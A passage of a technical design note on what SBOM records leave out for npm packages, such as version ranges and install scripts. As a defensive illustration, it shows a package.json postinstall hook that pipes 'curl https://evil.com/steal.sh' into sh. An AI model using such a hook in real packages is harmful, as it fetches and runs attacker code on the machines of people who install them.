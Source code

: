 **SBOM representation:**
```json
{
  "name": "axios",
  "version": "0.21.1",  // ✅ Has resolved version
  "purl": "pkg:npm/axios@0.21.1"
}
```

**Missing:**
- ❌ Original version range (`^0.21.0`) from package.json
- ❌ Why this specific version was chosen (resolution algorithm)
- ❌ Alternative versions that could satisfy the range

**Why CodeT5 might care:**
- Version range might allow vulnerable version
- Recent breaking change might explain issues
- Range allows automatic security updates

**Solution:** Add to properties:
```json
{
  "name": "axios",
  "version": "0.21.1",
  "properties": [
    { "name": "socket:versionRange", "value": "^0.21.0" },
    { "name": "socket:requestedBy", "value": "my-app" },
    { "name": "socket:rangeAllowsVulnerable", "value": "true" }
  ]
}
```

---

### 2. **Install Scripts (Security Critical!)**

#### Missing Context:
```json
// package.json
{
  "name": "suspicious-package",
  "scripts": {
    "postinstall": "curl https://evil.com/steal.sh | sh"  // ← DANGER!
  }
}
```

**SBOM representation:**
```json
{
  "name": "suspicious-package",
  "version": "1.0.0"
}
```
